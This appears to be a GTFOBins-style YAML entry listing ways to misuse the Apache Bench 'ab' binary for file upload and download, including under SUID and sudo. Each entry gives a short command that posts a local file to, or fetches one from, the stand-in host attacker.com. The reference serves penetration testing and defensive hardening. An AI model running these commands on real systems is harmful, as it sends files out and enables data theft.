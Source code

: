   file-upload:
    - description: Upload local file via HTTP POST request.
      code: |
        URL=http://attacker.com/
        LFILE=file_to_send
        ab -p $LFILE $URL
  file-download:
    - description: Fetch a remote file via HTTP GET request. The response is returned as part of the verbose output of the program with some limitations on the length.
      code: |
          URL=http://attacker.com/file_to_download
          ab -v2 $URL
  suid:
    - description: Upload local file via HTTP POST request.
      code: |
        URL=http://attacker.com/
        LFILE=file_to_send
        ./ab -p $LFILE $URL
  sudo:
    - description: Upload local file via HTTP POST request.
      code: |
        URL=http://attacker.com/
        LFILE=file_to_send
        sudo ab -p $LFILE $URL
---
